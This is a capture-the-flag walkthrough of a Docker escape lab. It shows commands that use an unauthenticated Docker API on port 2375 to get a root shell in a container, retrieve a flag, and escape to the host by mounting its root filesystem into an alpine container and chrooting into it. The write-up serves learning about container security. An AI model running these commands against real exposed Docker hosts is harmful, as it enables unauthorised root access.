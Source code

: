 We find that the api is exposed and we can look at the containers running, looks like that ssh port we found was a blackhole hence the inability to use the credential we found earlier
so let utilize this frontend container dockerescapecompose_frontend_1 to try and execute /bin/bash
```
docker -H 10.10.249.5:2375 exec -it dockerescapecompose_frontend_1 /bin/bash
root@docker-escape:/# ls -la
total 88
drwxr-xr-x  1 root root 4096 Jan  7 22:15 .
drwxr-xr-x  1 root root 4096 Jan  7 22:15 ..
-rwxr-xr-x  1 root root    0 Jan  7 22:15 .dockerenv
drwxr-xr-x  2 root root 4096 Dec  9 23:22 bin
drwxr-xr-x  2 root root 4096 Nov 22 12:37 boot
drwxr-xr-x  5 root root  340 Feb 21 20:40 dev
drwxr-xr-x  1 root root 4096 Dec 15 20:20 docker-entrypoint.d
-rwxrwxr-x  1 root root 1202 Dec 15 20:20 docker-entrypoint.sh
drwxr-xr-x  1 root root 4096 Jan  7 22:15 etc
drwxr-xr-x  2 root root 4096 Nov 22 12:37 home
drwxr-xr-x  1 root root 4096 Dec 15 20:20 lib
drwxr-xr-x  2 root root 4096 Dec  9 23:22 lib64
drwxr-xr-x  2 root root 4096 Dec  9 23:22 media
drwxr-xr-x  2 root root 4096 Dec  9 23:22 mnt
drwxr-xr-x  2 root root 4096 Dec  9 23:22 opt
dr-xr-xr-x 95 root root    0 Feb 21 20:40 proc
drwx------  2 root root 4096 Dec  9 23:22 root
drwxr-xr-x  1 root root 4096 Feb 21 20:40 run
drwxr-xr-x  2 root root 4096 Dec  9 23:22 sbin
drwxr-xr-x  2 root root 4096 Dec  9 23:22 srv
dr-xr-xr-x 13 root root    0 Feb 21 20:58 sys
drwxrwxrwt  1 root root 4096 Dec 15 20:20 tmp
drwxr-xr-x  1 root root 4096 Dec  9 23:22 usr
drwxr-xr-x  1 root root 4096 Dec  9 23:22 var
root@docker-escape:/#
```

we eventually find the webserver in /usr/share/nginx/html/
in .wellknown we find the following
```
root@docker-escape:/usr/share/nginx/html/.well-known# cat security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```
so we do the following
``
curl --HEAD 10.10.249.5/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sun, 21 Feb 2021 21:39:54 GMT
Connection: keep-alive
flag: REDACTED
``
back to escpaing the container we saw alpine in the images and we find a oneliner on gtfobins to abuse it
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
so we modifiy it with the tag 
to do the following
docker -H 10.10.249.5:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
and we are root on the actual system!
